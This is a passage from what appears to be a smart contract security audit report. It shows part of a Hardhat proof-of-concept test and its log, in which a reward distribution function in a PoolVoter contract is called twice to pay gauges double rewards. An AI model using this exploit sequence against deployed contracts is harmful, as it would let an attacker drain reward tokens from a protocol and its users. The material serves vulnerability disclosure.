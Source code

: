 ```typescript
    splitterGauge = await hre.ethers.getContractAt("LendingPoolGauge", await poolVoter.gauges(reserve.target));
    console.log("The claimable reward of gauge: ", await poolVoter.claimable(splitterGauge.target));
    console.log("Call the updateFor gauge to update the claimable reward for the gauge");
    await poolVoter.connect(ant).updateFor(splitterGauge.target);
    console.log("The claimable reward of gauge: ", await poolVoter.claimable(splitterGauge.target));
    console.log("Call the claimFor gauge to claim the reward for the gauge");
    
    await poolVoter.connect(ant)["distribute(address)"](splitterGauge.target);
    console.log("After distributeEx zero balance of aTokenGauge: ", await zero.balanceOf(aTokenGauge.target));
    console.log("After distributeEx zero balance of varTokenGauge: ", await zero.balanceOf(varTokenGauge.target));


  });

```

The test log: https://drive.google.com/file/d/1LlCyR6mSFRkbhhv9PhmEcdnQ5o43dx6N/view?usp=sharing 
```
totalWeight:  0n
after vote totalWeight:  0n
length of pools: 1n
zero balance of PoolVoter:  0n
Step: the Deployer (the owner of Zero token) approve the PoolVoter to spend 100 ZERO token
after vote totalWeight:  19953116596905124301n
length of pools: 2n
After notifyRewardAmout zero balance of PoolVoter:  100000000000000000000n
Before distributeEx zero balance of aTokenGauge:  0n
Before distributeEx zero balance of varTokenGauge:  0n
Step: Call distributeEx to distribute the reward
After distributeEx zero balance of aTokenGauge:  6249999999999999999n
After distributeEx zero balance of varTokenGauge:  18749999999999999997n
After distributeEx zero balance of aTokenGauge:  6249999999999999999n
After distributeEx zero balance of varTokenGauge:  18749999999999999997n
The claimable reward of gauge:  0n
Call the updateFor gauge to update the claimable reward for the gauge
The claimable reward of gauge:  24999999999999999997n
Call the claimFor gauge to claim the reward for the gauge
After distributeEx zero balance of aTokenGauge:  12499999999999999998n
After distributeEx zero balance of varTokenGauge:  37499999999999999994n
    ✔ Test the distributeEx of PoolVoter contract to get the double reward (286ms)
```


------


For Bug1 POC: 

